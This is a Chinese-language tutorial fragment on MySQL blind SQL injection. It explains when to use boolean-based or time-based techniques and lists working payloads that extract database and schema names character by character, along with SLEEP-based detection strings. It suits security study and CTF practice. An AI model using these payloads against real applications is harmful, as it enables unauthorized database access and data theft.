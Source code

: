 + 正确语句返回正常页面，错误的语句返回通用错误页面。可以尝试使用布尔注入。
+ 提交错误语句，不影响页面的正常输出。建议尝试使用延时注入。

几种简单的判断语句，在真实利用中需要根据情况而变化:
+ CASE
+ IF()
+ IFNULL()
+ NULLIF()

### 布尔盲注-基于响应
提交一个逻辑判断语句，来推断一个个的信息位。由于注入需要（一般）一个个字符的进行，所以需要利用脚本，或者工具（比如burp suite）。以下是：

#### payload
```
// i 用于提取每一个位，j 用于判断其对应的ASCII码值的范围。
// k ，结合limit，选择偏移为k的行
// **中可以填上其他的select语句，比如查询表名，列名，数据。一次类推。
// SUBSTR() 也可以换成 SUBSTRING()

' OR (SELECT ASCII(SUBSTR(DATABASE(),i,1) ) < j) #

' OR (SELECT ASCII(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) ) < j) #  

' OR (SELECT SUBSTR(DATABASE(),i,1) < j) #

' OR (SELECT SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j) #  

' OR SUBSTR((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT k,1),i,1) < j #

...
```
#### 脚本
脚本利用，可见：[ctf盲注利用脚本](https://chybeta.github.io/2017/07/16/XMAN%E9%80%89%E6%8B%94%E8%B5%9B-2017-web-writeup/#CTF%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95)
要点：
+ 注意编码问题
+ 注意异常处理
+ 注意边界处理

### 延时盲注-基于时间
一般会用到几个函数。使用这些的效果，是为了延缓mysql的操作，从而检测到与平时有异的情况：
+ SLEEP(n) 让mysql停n秒钟
+ BENCHMARK(count,expr) 重复countTimes次执行表达式expr

一些注意事项：
+ 使用基于时间的盲注比较不准确，因为这还取决于当前的网络环境。
+ 时间延缓最好不要超过30秒，否则容易导致mysql的API连接超时。
+ 当在页面上看不到任何明显变化时，再考虑选择使用延时注入。

#### 检测方法
```
1 OR SLEEP(25)=0 LIMIT 1 #
1) OR SLEEP(25)=0 LIMIT 1 #
1' OR SLEEP(25)=0 LIMIT 1 #
') OR SLEEP(25)=0 LIMIT 1 #
1)) OR SLEEP(25)=0 LIMIT 1 #
SELECT SLEEP(25) #
```
